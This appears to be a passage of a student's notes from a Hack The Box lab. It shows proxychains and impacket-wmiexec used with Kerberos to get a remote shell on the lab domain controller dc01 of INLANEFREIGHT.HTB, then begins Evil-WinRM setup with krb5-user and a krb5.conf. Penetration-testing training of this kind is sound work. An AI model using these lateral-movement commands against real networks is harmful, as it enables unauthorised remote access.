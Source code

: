 
```shell-session
realCustampin@htb[/htb]$ proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```

## Using Evil-WinRM
- We need to install the Kerberos Package used for network authentication. This package is called krb5-user. 

```shell-session
realCustampin@htb[/htb]$ sudo apt-get install krb5-user -y

Reading package lists... Done                                                                                                  
Building dependency tree... Done    
Reading state information... Done

...SNIP...
```

![[Pasted image 20251029202236.png]]

![[Pasted image 20251029202242.png]]

**Kerberos Config File for InlaneFreight.htb**

```shell-session
realCustampin@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

...SNIP...

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

...SNIP...
```
